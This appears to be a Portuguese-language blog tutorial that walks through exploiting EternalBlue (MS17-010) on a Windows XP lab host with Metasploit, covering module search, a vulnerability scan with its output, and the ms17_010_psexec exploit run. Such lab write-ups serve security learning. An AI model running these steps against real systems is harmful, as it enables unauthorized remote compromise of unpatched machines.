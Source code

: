 ```yaml
---
title: Exploitation - Eternal Blue ( WinXP )
category: post
---
```


>O EternalBlue é um exploit de ataque cibernético desenvolvido pela Agência de Segurança Nacional dos Estados Unidos da América. Foi divulgado pelo grupo de hackers Shadow Brokers em 14 de abril de 2017, um mês depois que a Microsoft lançou correções para a vulnerabilidade. by : Wikipédia

**Explorando o EternalBlue WindowsXP**


- Primeiro vamos entrar no metasploit logando com o msfconsole e procurar a Vulnerabilidade em questão.

```ruby
msfconsole
msf6 > search eternalblue
```

or

```ruby
msfconsole
msf6 > search ms17-010
```

---

- Agora temos que ter o host do alvo, para verificarmos se o alvo é um target Windows XP e se está vulnerável. Nesse caso o host é : _10.10.1.4_


```ruby
use auxiliary/scanner/smb/smb_ms17_010
set RHOST 10.10.1.4
exploit
```

- Se tudo der certo, obtemos uma resposta parecida com o seguinte:

```text
[+] 10.l0.1.4:445      - Host is likely VULNERABLE to MS17-010! - Windows 5.1
[*] 10.l0.1.4:445      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

---


### Explorando o host que identificamos que esta vulneravel


```ruby
msf6 > back
msf6 > use exploit/windows/smb/ms17_010_psexec

set RHOST 10.10.1.4
set LHOST 10.10.1.2
run
```
